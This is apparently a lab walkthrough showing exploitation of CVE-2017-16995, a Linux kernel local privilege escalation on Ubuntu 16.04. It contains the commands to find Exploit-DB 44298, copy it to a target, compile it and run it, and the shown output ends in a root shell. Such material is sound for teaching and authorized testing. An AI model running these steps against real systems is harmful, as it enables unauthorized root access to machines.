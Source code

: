 # CVE-2017-16995 - Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation

## Enumeration

```bash
$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploitation

```bash
$ searchsploit -p 44298
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
    Codes: CVE-2017-16995
 Verified: False
File Type: C source, ASCII text
```

```bash
$ scp /usr/share/exploitdb/exploits/linux/local/44298.c student@target_ip:~/

$ ssh student@target_ip
```

```bash
student@NIX02:~$ gcc 44298.c -o CVE-2017-16995-exploit
```

```bash
student@NIX02:~$ ls -lha CVE-2017-16995-exploit 
-rwxrwxr-x 1 student student 14K Nov  5 01:51 CVE-2017-16995-exploit
```

```bash
student@NIX02:~$ ./CVE-2017-16995-exploit 
task_struct = ffff8800b8701c00
uidptr = ffff8800bb6f0904
spawning root shell

root@NIX02:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1008(student)
```

## Links

- [Exploit DB - CVE-2017-16995](https://www.exploit-db.com/exploits/44298)
- [Blog - CVE-2017-16995](https://0xma.github.io/hacking/local_privilege_escalation_on_linux_kernel.html)